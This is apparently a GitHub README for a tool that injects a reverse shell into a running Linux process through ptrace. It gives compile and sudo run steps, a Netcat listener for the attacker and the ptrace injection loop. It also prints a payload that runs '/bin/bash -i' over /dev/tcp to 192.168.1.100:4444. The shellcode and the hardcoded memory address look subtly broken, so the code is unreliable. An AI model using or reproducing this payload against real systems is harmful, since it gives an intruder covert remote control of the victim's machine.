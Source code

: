 # Reverse Shell Injection using Ptrace

This project demonstrates how to inject a reverse shell payload into a running process using the `ptrace` system call in Linux. The injected shell connects back to an attacker's machine, allowing remote control.

## **Features**

- Attaches to a running process using `ptrace`.
- Injects a reverse shell payload into the process's memory.
- Establishes a connection to an attacker's IP and port.
- Detaches from the target process after injection.

## **Prerequisites**

- Linux system with GCC installed.
- Root privileges (for process attachment).
- Knowledge of the target process ID (PID).

## **Usage**

### **Step 1: Compile the Code**

```bash
gcc -o inject_reverse_shell inject_reverse_shell.c -Wall
```

### **Step 2: Run the Binary**

```bash
sudo ./inject_reverse_shell
```

### **Step 3: Set Up Listener on Attacker Machine**

On the attacker's system, set up a Netcat listener to catch the reverse shell:

```bash
nc -lvp 4444
```

## **Code Explanation**

### **1. Attach to Target Process:**

```c
ptrace(PTRACE_ATTACH, target_pid, NULL, NULL);
waitpid(target_pid, NULL, 0);
```

- This attaches to the process specified by `TARGET_PID` and waits until it's ready for manipulation.

### **2. Inject Reverse Shell:**

```c
for (size_t i = 0; i < size; i += sizeof(long)) {
    memcpy(&ret, shellcode + i, sizeof(long));
    ptrace(PTRACE_POKETEXT, pid, (void *)(0x7f60133ba000 + i), (void *)ret);
}
```

- Injects the reverse shell payload into the memory of the target process.

### **3. Detach from Process:**

```c
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

- Detaches from the process, allowing it to continue normal execution.

## **Shellcode Details**

```c
char reverse_shell[] =
    "\x48\x31\xc0\x50\x5f\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1";
```

- This payload opens a reverse shell to IP `192.168.1.100` on port `4444`.

## **Legal Disclaimer**

This project is intended for educational and authorized testing purposes only. Unauthorized use of this code against systems you do not own is illegal and unethical.

## **Contributing**

Feel free to submit issues and pull requests for improvements.

## **License**

This project is licensed under the MIT License.

